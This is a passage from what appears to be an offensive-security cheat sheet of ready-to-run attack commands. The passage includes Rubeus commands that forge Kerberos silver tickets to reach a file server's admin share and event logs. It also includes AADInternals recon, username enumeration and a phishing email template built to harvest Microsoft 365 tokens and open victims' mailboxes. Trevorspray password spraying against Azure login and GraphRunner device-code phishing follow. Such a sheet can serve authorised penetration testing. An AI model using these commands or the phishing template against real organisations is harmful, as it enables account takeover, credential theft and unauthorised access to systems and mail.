rem using rubeus (could also use ticketer) generate the ticket for the SMB service on the fileserver
Rubeus.exe sliver /service:cifs/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:username

rem ensure the kerberos ticket has been loaded into local memory 
klist

rem now, try to hit access the server
dir \\file01.domain.com\c$

rem in this example, we can instead forge a ticket for a different "serviceclass" (we did cifs before) that lets us query the target's event logs using an arbitrary username and user id
Rubeus.exe sliver /service:host/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:anything /id:777

rem now query the event logs
wevutil /r:file01.domain.com qe Security "/q:*[System/EventID=4624] and *[EventData/Data[@Name='TargetUserName'='anything']" /f:text /c:1

```

</details>

## Microsoft O365
<details>
<summary> AADInternals </summary>

``` powershell
# conduct azure recon on given domain name
Invoke-AADIntReconAsOutsider -DomainName domain.com | Format-Table

# pass list of users to verify valid usernames
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal

# Send a phishing email to recipients using customised message and save the tokens to cache
$message = 'Dear recipient, <br> Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@domain.com","wvictim2@domain.com" -Subject "Your Microsoft account is compromised - Actions required." -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache

# open a user's mailbox using the tokens you just obtained from previous phishing
Open-AADIntOWA
```
</details>

<details>
<summary> Password Spraying Azure </summary>

``` bash
# use trevorspray to get the token endpoint
trevorspray --recon domain.com

# spray passwords against known users
trevorspray --users /tmp/users.txt --passwords /tmp/passwords.txt --url 'https://login.windows.net/TENANT-ID/oauth2/token'

```
</details>

<details>
<summary> GraphRunner </summary>

``` powershell
# obtain a devicelogin token to use in a phishing email
Get-GraphTokens

# check security groups using the auth tokens obtained from prior phishing attack
Get-SecurityGroups -Tokens $tokens

# identify dynamic security groups to possibly use for privelege escalation
Get-DynamicGroups -Tokens $tokens
```
</details>